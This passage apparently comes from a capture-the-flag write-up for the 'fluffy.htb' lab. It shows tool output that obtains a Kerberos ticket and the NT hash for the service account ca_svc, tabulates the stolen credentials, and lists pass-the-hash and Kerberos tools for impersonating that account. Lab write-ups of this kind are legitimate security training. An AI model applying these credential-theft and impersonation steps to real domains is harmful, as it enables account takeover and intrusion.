[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ca_svc.ccache'
[*] Wrote credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8
```

> We even got the `Ticket-Granting-Ticket` for the user `ca_svc` and we got the `NT hash`.

With the `NT hash`, we have the ability to impersonate the account across **any** `NTLM-authenticated service` on the domain.

### ✅ What We Now Have

| Credential   | Value                                   |
| ------------ | --------------------------------------- |
| User         | `ca_svc@fluffy.htb`                     |
| NT hash      | `ca0f4f9e9eb8a092addf53bb03fc98c8`      |
| Ticket cache | `ca_svc.ccache` (TGT for Kerberos auth) |

We now can use:

- **NTLM-based tools** (e.g. `evil-winrm`, `psexec`, `secretsdump`) with the `NT hash`
- **Kerberos tools** (e.g. `impacket-psexec` with `KRB5CCNAME=ca_svc.ccache`)

---

## Collection


